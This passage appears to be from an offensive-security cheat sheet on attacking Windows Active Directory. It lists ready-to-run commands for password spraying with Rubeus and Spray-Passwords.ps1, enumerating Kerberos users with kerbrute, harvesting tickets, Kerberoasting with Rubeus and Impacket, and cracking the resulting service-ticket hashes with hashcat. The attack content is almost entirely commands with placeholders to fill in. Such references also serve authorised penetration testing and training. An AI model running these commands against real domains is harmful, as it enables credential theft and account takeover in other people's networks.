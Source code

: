 ### 🍾 Password spraying

```powershell
.\Rubeus.exe brute /password:<PASSWORD> /noticket
```

➡️ [Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1) can also be used to perform a spraying attack.

```powershell
.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose
```

➡️ https://github.com/Greenwolf/Spray

> **TODO**: remote password spraying?
 

## Kerberos (TCP port 88)

### Enumerating users

```bash
./kerbrute userenum --dc <DC> -d <DOMAIN> <USERNAME_WORDLIST_FILENAME>
```

### Harvesting tickets

- **Rubeus** (every 30 seconds):
    
    ```powershell
    .\Rubeus.exe harvest /interval:30
    ```

### Kerberoasting

> **Kerberoasting** allows a user to request a service ticket for any service with a registered **SPN** then use that ticket to crack the service password.
 
- **Rubeus** (local):
    
    ```powershell
    .\Rubeus.exe kerberoast
    ```
    
- **Impacket** (remote):
    
    ```bash
    GetUserSPNs.py <Domain>/<username>:<password> -dc-ip <IP> -request
    ```
    
- Cracking Kerberos 5 etype 23 TGS-REP:
    
    ```bash
    hashcat -m 13100 -a 0 hash.txt Pass.txt
    ```
    
